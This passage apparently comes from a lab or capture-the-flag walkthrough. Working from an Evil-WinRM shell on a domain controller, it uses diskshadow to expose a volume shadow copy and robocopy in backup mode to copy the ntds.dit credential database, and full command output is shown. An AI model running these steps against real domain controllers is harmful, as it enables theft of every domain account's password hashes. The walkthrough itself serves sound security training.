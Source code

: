 *Execute the `diskshadow` command on the victim machine to process the `.dsh` file:*
```
*Evil-WinRM* PS C:\Windows\temp> diskshadow /s diskshadow.dsh
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  BABYDC,  12/10/2024 4:42:47 PM

-> set context persistent nowriters
-> add volume c: alias persecure
-> create
Alias persecure for shadow ID {00c44bca-56f0-4e40-a5d0-cc8911e527fd} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {9d386d70-5ce4-4aa9-ba4f-02d81d01c7b5} set as environment variable.

Querying all shadow copies with the shadow copy set ID {9d386d70-5ce4-4aa9-ba4f-02d81d01c7b5}

        * Shadow copy ID = {00c44bca-56f0-4e40-a5d0-cc8911e527fd}               %persecure%
                - Shadow copy set: {9d386d70-5ce4-4aa9-ba4f-02d81d01c7b5}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{1b77e212-0000-0000-0000-100000000000}\ [C:\]
                - Creation time: 12/10/2024 4:42:48 PM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                - Originating machine: BabyDC.baby.vl
                - Service machine: BabyDC.baby.vl
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %persecure% z:
-> %persecure% = {00c44bca-56f0-4e40-a5d0-cc8911e527fd}
The shadow copy was successfully exposed as z:\.
->
```

*Use the `robocopy` command in backup mode (`/b`) to copy the `ntds.dit` file from the exposed volume:*

```
*Evil-WinRM* PS C:\Windows\temp> robocopy /b z:\windows\ntds . ntds.dit 
.
.
1.9%
100%

------------------------------------------------------------------------------

               Total    Copied   Skipped  Mismatch    FAILED    Extras
    Dirs :         1         0         1         0         0         0
   Files :         1         1         0         0         0         0
   Bytes :   16.00 m   16.00 m         0         0         0         0
   Times :   0:00:00   0:00:00                       0:00:00   0:00:00


   Speed :           97,541,953 Bytes/sec.
   Speed :            5,581.396 MegaBytes/min.
   Ended : Tuesday, December 10, 2024 4:44:10 PM
```
